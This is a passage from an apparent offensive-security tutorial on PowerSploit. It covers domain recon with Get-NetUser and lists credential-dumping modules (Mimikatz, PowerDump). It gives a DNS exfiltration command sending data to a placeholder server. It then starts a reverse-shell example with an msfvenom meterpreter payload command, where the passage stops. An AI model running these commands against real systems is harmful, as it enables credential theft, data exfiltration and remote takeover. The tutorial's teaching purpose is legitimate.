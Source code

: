 ### Recon

Recon modules in PowerSploit are designed to help you gather information about your target environment, such as users, groups, permissions, and more. Some popular modules in this category are:

- **Get-NetUser**: This module retrieves information about a specified user or all users in the current domain.
- **Get-NetComputer**: This module retrieves information about computers in the current domain.
- **Get-NetShare**: This module retrieves information about shared folders on a specified computer.

#### Example: Enumerating Domain Users with Get-NetUser

To enumerate all users in the current domain, you can use the Get-NetUser module:

```powershell
Get-NetUser -Filter *
```

This command will retrieve information about all users in the domain, including their username, full name, description, and more.

### Exfiltration

Exfiltration modules in PowerSploit allow you to stealthily extract data from a compromised system. Some popular modules in this category are:

- **Invoke-Mimikatz**: This module runs Mimikatz, a powerful tool for extracting credentials from Windows systems.
- **Invoke-PowerDump**: This module dumps password hashes from the local Security Accounts Manager (SAM) database.
- **Out-DnsTxt**: This module exfiltrates data over DNS using TXT records.

#### Example: Data Exfiltration Using DNS

To exfiltrate data from a compromised system using DNS, you can use the `Out-DnsTxt` module. First, ensure that your DNS server is set up to log incoming DNS queries. Then, use the following command to exfiltrate data:

```powershell
Out-DnsTxt -Data "SENSITIVE_DATA" -DnsServer "YOUR_DNS_SERVER"
```

This command will encode the specified data as a base64 string and send it to your DNS server using TXT records.

## Real-World Examples

In this section, we’ll go over some real-world examples of PowerSploit in action to give you a better understanding of how these modules can be used in your offensive security operations.

### Deploying a Reverse Shell

In this example, we’ll use PowerSploit’s `Invoke-Shellcode` module to deploy a reverse shell on a target machine. First, generate the shellcode using a tool like msfvenom:

```powershell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=443 -f powershell
```
